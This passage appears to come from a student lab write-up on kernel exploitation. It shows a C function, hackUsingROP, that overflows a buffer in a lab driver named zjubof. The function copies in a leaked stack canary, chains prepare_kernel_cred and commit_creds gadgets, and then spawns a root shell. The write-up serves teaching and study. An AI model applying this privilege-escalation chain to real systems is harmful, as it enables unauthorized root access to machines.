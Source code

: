 RA of zjubof_write: 0xffff8000107abe54

![image 12](image-20230530015026018.png)

4. 关键代码及结果

```c
void hackUsingROP(int fd, size_t offset) {
    char buf[161];
    memset(buf, '\0', sizeof(buf));

    memcpy(buf + 24, canaryStr, 8);

    size_t prepareKernelCredRA = RAOfPrepareKernelCred + offset;
    memcpy(buf + 40, (char*)&prepareKernelCredRA, 8);

    size_t commitCredsRA = RAOfCommitCreds + offset;
    memcpy(buf + 72, (char*)&commitCredsRA, 8);

    size_t secondLevelGadgetRA = RAOfSecondLevelGadget + offset;
    memcpy(buf + 104, (char*)&secondLevelGadgetRA, 8);

    size_t ZJUBofWriteRA = RAOfZJUBofWrite + offset;
    memcpy(buf + 152, (char*)&ZJUBofWriteRA, 8);

    write(fd, buf, 160);
    
    system("/bin/sh"); 
    
    return;
}
```

![image 13](image-20230530012657947.png)
